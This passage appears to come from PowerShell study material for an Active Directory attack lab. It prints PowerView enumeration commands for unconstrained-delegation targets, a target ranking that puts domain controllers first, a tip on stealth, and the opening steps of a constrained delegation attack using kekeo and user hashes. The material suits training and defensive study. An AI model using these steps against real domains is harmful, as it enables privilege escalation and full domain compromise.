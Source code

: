 ```powershell
Write-Host "Invoke-UserHunter -ComputerName dcorp-appsrv -Poll 100 -UserName Administrator -Delay 5 -Verbose" -ForegroundColor White

Write-Host "`n⚠️ IMPORTANT NOTES:" -ForegroundColor Red
Write-Host "- Unconstrained delegation is extremely dangerous" -ForegroundColor White
Write-Host "- Can lead to complete domain compromise" -ForegroundColor White
Write-Host "- Monitor for TGT capture events" -ForegroundColor White
Write-Host "- Use legitimate services for stealth" -ForegroundColor White
```

#### **Unconstrained Delegation Target Analysis**
```powershell
# Unconstrained Delegation Target Analysis
Write-Host "=== UNCONSTRAINED DELEGATION TARGET ANALYSIS ===" -ForegroundColor Green

Write-Host "`n🎯 HIGH-VALUE TARGETS:" -ForegroundColor Yellow
Write-Host "1. Domain Controllers (CRITICAL)" -ForegroundColor Red
Write-Host "2. SQL Servers (HIGH)" -ForegroundColor Red
Write-Host "3. Web Servers (HIGH)" -ForegroundColor Red
Write-Host "4. File Servers (HIGH)" -ForegroundColor Red

Write-Host "`n🔍 TARGET IDENTIFICATION:" -ForegroundColor Yellow
Write-Host "# Find all unconstrained delegation objects" -ForegroundColor Cyan
Write-Host "Get-DomainObject -Unconstrained -Properties Name, ObjectClass, DistinguishedName" -ForegroundColor White

Write-Host "# Categorize by risk level" -ForegroundColor Cyan
Write-Host "$criticalTargets = Get-DomainComputer -Unconstrained | Where-Object { $_.Name -like '*DC*' }" -ForegroundColor White
Write-Host "$highTargets = Get-DomainComputer -Unconstrained | Where-Object { $_.Name -like '*SQL*' -or $_.Name -like '*WEB*' }" -ForegroundColor White

Write-Host "`n📊 RISK ASSESSMENT:" -ForegroundColor Yellow
Write-Host "Risk Level: CRITICAL - Complete domain compromise possible" -ForegroundColor Red
Write-Host "Attack Vector: TGT capture from high-privilege users" -ForegroundColor Red
Write-Host "Detection: Monitor for unusual TGT requests" -ForegroundColor Yellow
Write-Host "Mitigation: Disable unconstrained delegation" -ForegroundColor Green
```

### **2. 🔒 Complete Constrained Delegation Attack Workflow**

#### **Step-by-Step Constrained Delegation Execution**
```powershell
# Complete Constrained Delegation Attack Workflow (CRITICAL MISSING CONTENT)
Write-Host "=== COMPLETE CONSTRAINED DELEGATION ATTACK WORKFLOW ===" -ForegroundColor Red

Write-Host "`n🎯 ATTACK OVERVIEW:" -ForegroundColor Yellow
Write-Host "Constrained delegation allows services to impersonate users to access SPECIFIC services." -ForegroundColor White

Write-Host "`n📋 PREREQUISITES:" -ForegroundColor Yellow
Write-Host "1. Control of account with constrained delegation enabled" -ForegroundColor White
Write-Host "2. Target service in delegation scope" -ForegroundColor White
Write-Host "3. Valid user credentials for impersonation" -ForegroundColor White

Write-Host "`n🚀 EXECUTION STEPS:" -ForegroundColor Yellow
Write-Host "1. List all the users having Constrained Delegation" -ForegroundColor White
Write-Host "2. Keep a note of the msDS-AllowedToDelegateTo value" -ForegroundColor White
Write-Host "3. Request for a TGT using the hash of the user with CD using kekeo" -ForegroundColor White
Write-Host "4. Keep a note of the TGT return ticket" -ForegroundColor White
```